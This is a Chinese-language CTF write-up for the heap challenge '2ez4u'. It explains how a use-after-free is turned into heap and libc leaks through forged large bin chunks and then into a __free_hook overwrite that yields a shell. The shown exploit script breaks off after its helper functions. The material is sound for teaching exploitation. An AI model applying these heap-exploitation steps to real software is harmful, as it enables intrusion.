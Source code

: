 ## 2ez4u
题目是经典的菜单题，有创建、编辑、删除、打印四个功能。
漏洞是UAF漏洞，即在删除堆块后并没有将存储指针的全局变量清空，还能够重复的编辑，如何使用这一点拿到shell就是这道题的考点。
## 思路
### 泄露地址
题目的第一个难点在于泄露地址，程序本身还开启了PIE，由于打印的时候，打印的位置是从分配堆块的0x18的位置开始打印的，而正常堆块的fd与bk俩个指针在前0x10字节，想要通过常规的利用这俩个字段泄露地址好像有点难度，此时就想要了前面提到过的fd_nextsize和bk_nextsize这俩个字段。所以就想办法通过large bin来实现攻击。
首先泄露堆地址，构造俩个large bin chunk，大小在同一个bins中，将其释放后，此时俩个chunk会被释放到unsorted bin中，再申请一个大小大于这俩个chunk的块，此时这俩个chunk会被放到相应的large bin中，同时fd_nextsize与bk_nextsize会被赋值，再利用UAF打印即可得到堆块地址。
### 伪造large bin chunk
在泄露堆地址后，接下来需要泄露libc地址，根据官方的wp，使用的方法是伪造large bin chunk，我觉得神奇的地方在于不需要将伪造的堆块释放，而是修改之前被释放堆块的bk_nextsize字段即可，对应到源代码中代码即`victim = victim->bk_nextsize`，这一点使用UAF即可做到，但想要将该堆块申请出来，还需要绕过unlink的限制，这也可以通过UAF实现。在可以将伪造的堆块申请出来之后，我们可以在伪造的堆块中包含有正常的small bin，这样就可以达到泄露出libc地址以及修改内存的目的。
### 覆盖__free_hook指针
可以利用刚刚伪造的堆块包含fastbin，接下来只需要覆盖fastbin的fd指针，就可以构造合适的chunk，使得将main_arena的top指针覆盖为free_hook的上面一些的地址。
这一点对于我来说是个新姿势，学到了。具体来说，首先使用修改fastbin fd的方式，将main_arena的fastbin数组的一个指针修改为0x60，这样就获得了在申请fastbin时需要绕过检查的size位，接着将另一个数组的相应fd指向为main_arena合适的位置，即可将top指针上放的指针当作chunk申请出来，从而实现将top指针修改为__free_hook上方的位置，再接着就是多申请几次，将hook指针覆盖为system函数地址即可。
## exploit
exploit如下，是官方的wp，加了一些注释：
```PYTHON
#!/usr/bin/env python2.7
# -*- coding: utf-8 -*-
from pwn import *
from ctypes import c_uint32
#context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'x86-64'
context.os = 'linux'
#context.log_level = 'DEBUG'
#io = remote("111.231.13.27", 20001)
#io = process("./chall", env = {"LD_PRELOAD" : "./libc-2.23.so"})
io = process("./2ez4u")
EXEC = 0x0000555555554000
def add(l, desc):
    io.recvuntil('your choice:')
    io.sendline('1')
    io.recvuntil('color?(0:red, 1:green):')
    io.sendline('0')
    io.recvuntil('value?(0-999):')
    io.sendline('0')
    io.recvuntil('num?(0-16)')
    io.sendline('0')
    io.recvuntil('description length?(1-1024):')
    io.sendline(str(l))
    io.recvuntil('description of the apple:')
    io.sendline(desc)
    pass
def dele(idx):
    io.recvuntil('your choice:')
    io.sendline('2')
    io.recvuntil('which?(0-15):')
    io.sendline(str(idx))
    pass
def edit(idx, desc):
    io.recvuntil('your choice:')
    io.sendline('3')
    io.recvuntil('which?(0-15):')
    io.sendline(str(idx))
```